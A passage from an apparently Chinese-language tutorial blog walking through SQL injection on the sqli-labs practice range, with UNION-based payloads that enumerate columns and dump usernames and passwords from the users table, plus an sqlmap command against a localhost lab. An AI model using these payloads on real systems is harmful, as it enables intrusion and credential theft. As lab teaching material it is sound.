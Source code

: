 USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

这是为什么呢

```bash
因为我们在写语句的时候 没有指定数据库 只指定了users
 
我们不排除其他地方也存在users 的表
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/78f9e08025c4f82e759b3073029e6f8c.png" alt="" style="max-height:189px; box-sizing:content-box;" />


很显然 还有其他数据的表的字段也返回了

这个时候我们只需要加入一个and 即可

```csharp
?id=-1'union select 1,2,GROUP_CONCAT(column_name) from information_schema.columns where table_schema='security' and TABLE_NAME='users'-- +
```

### 爆值

```csharp
?id=-1'union select 1,2,GROUP_CONCAT(id,'--------',username,'--------',password) from security.users-- +
```

因为我们知道了所有的信息 所以爆值就很快

通过字段 然后选择 数据库.表名 即可得出值来

这个时候就很简单取得值即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/bdf76bf1773ac7ed8b8600a0f52ccfcd.png" alt="" style="max-height:356px; box-sizing:content-box;" />


### SQLMAP



开启mysql 和apache服务

保证 靶场搭建

```sql
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --tables
这个会返回所有的数据库和数据库的表
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/b42a866644ddfdb21d2afea96059562d.png" alt="" style="max-height:159px; box-sizing:content-box;" />


我们确定了数据库和表就可以直接来爆破字段
